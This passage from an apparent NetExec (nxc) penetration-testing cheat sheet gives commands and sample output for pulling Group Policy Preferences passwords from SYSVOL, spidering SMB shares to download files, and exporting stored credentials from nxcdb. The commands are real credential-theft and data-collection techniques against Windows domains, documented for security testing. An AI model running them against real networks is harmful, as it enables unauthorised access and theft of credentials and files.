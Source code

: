 **Use Case**: Retrieves plaintext credentials with admin access.

### 19. Group Policy Preferences (GPP) Passwords
**Purpose**: Extract plaintext credentials from GPP files.

**Command**:
```bash
nxc smb 192.168.1.100 -u 'administrator' -p 'P@ssw0rd' --gpp-passwords
```
**Explanation**:
- Searches SYSVOL for GPP XML files with encrypted passwords.
- Example output:
  ```
  SMB         192.168.1.100 445 DC01 [+] example.com\administrator:P@ssw0rd (Pwn3d!)
  SMB         192.168.1.100 445 DC01 [*] Found GPP password: svc_account:Passw0rd!
  ```

**Use Case**: Exploits outdated GPP configurations for credential recovery.

### 20. Using Modules
**Purpose**: Extend functionality with protocol-specific modules.

**Listing Modules**:
```bash
nxc smb -L
```
**Explanation**:
- Lists available modules (e.g., `spider_plus`, `met_inject`, `wdigest`).

**Example: Spidering Shares**:
```bash
nxc smb 192.168.1.100 -u 'administrator' -p 'P@ssw0rd' -M spider_plus -o DOWNLOAD_FLAG=True
```
**Explanation**:
- Searches shares for files and downloads them if `DOWNLOAD_FLAG=True`.
- Example output:
  ```
  SMB         192.168.1.100 445 DC01 [+] example.com\administrator:P@ssw0rd (Pwn3d!)
  SMB         192.168.1.100 445 DC01 [*] Spidering shares...
  SMB         192.168.1.100 445 DC01 [*] Found files: /SHARE1/config.ini, /SHARE1/secret.txt
  ```

**Use Case**: Identifies sensitive files in shares.

### 21. Database Interaction with `nxcdb`
**Purpose**: Manage stored results in NetExec’s database.

**Command**:
```bash
nxcdb
```
**Explanation**:
- Accesses the database in `~/.nxc/workspaces`.
- Example commands:
  ```bash
  nxcdb (default)(smb) > creds
  nxcdb (default)(smb) > export creds detailed credentials.txt
  ```
- Lists or exports stored credentials.
